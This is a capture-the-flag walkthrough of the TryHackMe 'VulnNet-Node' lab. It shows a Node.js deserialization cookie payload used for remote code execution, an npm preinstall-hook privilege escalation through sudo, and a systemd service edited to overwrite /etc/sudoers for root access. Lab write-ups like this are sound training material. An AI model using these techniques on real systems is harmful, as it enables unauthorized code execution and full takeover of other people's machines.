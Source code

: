 ```yaml
---
layout: post
title: Walkthrough - VulnNET-Node
published: true
---
```


Tags: Linux, Web, Javascript, Privilege Escalation, NPM.
Description: After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Difficulty: Easy
URL: [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

* * *

## Notes

The name and Nmap gives us the clue this is a nodejs vuln

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

- `gobuster dir -u http://10.10.136.21:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

Gobuster doesnt yeild much just shows us the login that we can find by visiting the website.

Checking the firefox inspector, the session cookie seems to base64.

![](/assets/vulnnet-node01.png)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Node]
└─$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}           
```

Perhaps we are able to edit this cookie to give us access?

- encode `{"username":"Admin","isAdmin":true,"encoding": "utf-8"}` - `eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==`

Doesnt seem to do anything...

Going to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a nodejs shell for our machine.

I have used this from the past to work with nodejs `_$$ND_FUNC$$_function(){codehere}()` and then modifying the code from [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and encodeing with base64 gets the server to send us a reverse shell.

```
{"rce":"_$$ND_FUNC$$_function(){eval(CODEHERE)}()"}
```

Encode to b64 and send through as the cookie to gain shell

```
efaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Using this we can privesc to serv-manage

- `echo '{"scripts": {"preinstall": "/bin/sh"}}' > exp/package.json`
- `sudo -u serv-manage npm -C /home/www/VulnNet-Node/exp/ --unsafe-perm i`

* * * 

## user.txt?

![](/assets/vulnnet-node02.png)

* * * 

## root.txt?

sudo -l shows us we can start and stop a service names vulnnet-auto.timer

```
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We have permissions so we can edit this file to send us another reverse shell.

- `find / -name vulnnet* 2>/dev/null`
- `cat /etc/systemd/system/vulnnet-job.service`

This file executes df we have permissions to edit however so we can edit to give us root perms.

```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

Then we can swap to root and cat root.txt

```
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl stop vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl start vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo -l
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: ALL
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ cat /root/root.txt
cat: /root/root.txt: Permission denied
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo su
root@vulnnet-node:/etc/systemd/system# cat /root/root.txt
```

* * * 

